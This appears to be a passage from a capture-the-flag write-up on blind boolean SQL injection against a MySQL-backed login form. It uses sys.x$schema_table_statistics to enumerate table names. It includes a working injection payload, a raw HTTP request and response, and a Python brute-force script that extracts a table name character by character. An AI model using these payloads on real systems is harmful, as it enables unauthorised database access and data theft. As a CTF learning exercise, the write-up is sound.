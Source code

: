 After digging around i've found this reference https://dev.mysql.com/doc/refman/8.0/en/sys-schema-object-index.html which states about which table does what. This helped a lot in identifying a table which has all table names indexed in it. 

So i crafted a payload like ``2 && length((select table_name from sys.x$schema_table_statistics where table_schema=database() limit 0,1))=5`` to find the tablename length then found two responses for below requests.

```
POST /index.php HTTP/1.1
Host: 45.77.240.178:8002
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 119

id=2%26%26+length((select+table_name+from+sys.x$schema_table_statistics+where+table_schema%3ddatabase()+limit+0,1))+<+6

HTTP/1.1 200 OK
Date: Tue, 07 Jan 2020 20:15:39 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 250
Connection: close
Content-Type: text/html; charset=UTF-8


<br><br><br><br><center>
Security Check!!! Please enter your ID to prove who are you !!!:
<form action="index.php" method="POST">
        <input name="id" value="" /><br>
        <input type="submit" value="Submit" />
</form>
</center>

Hello guest
```

same way we can find other table name lengths. I only found 2 tables of which ``5 & 25`` lengths. We can easily guess first table name as ``users`` which is of `5` char length.

```css
def dump_tablenames():
	result=''
	j=1
	while j<=25:
		for i in printable:
			# length of table 1 is :  2 && length((select table_name from sys.x$schema_table_statistics where table_schema=database() limit 0,1))=5 we can guess its users
			#second table length is : 2 && length((select table_name from sys.x$schema_table_statistics where table_schema=database() limit 1,1))=25
			#Table name is Th1z_Fack1n_Fl4444G_Tabl3
			if i!='%':
				r = requests.post(url,headers={'Content-Type':'application/x-www-form-urlencoded'},data={'id':'2 && ascii(substr((select table_name from sys.x$schema_table_statistics where table_schema=database() limit 1,1),{},25))=ascii("{}")'.format(j,i)})
				if 'guest' in r.text:
					result=result+i
					print '[+] Table Name : {}'.format(result)
					break
		j+=1
```
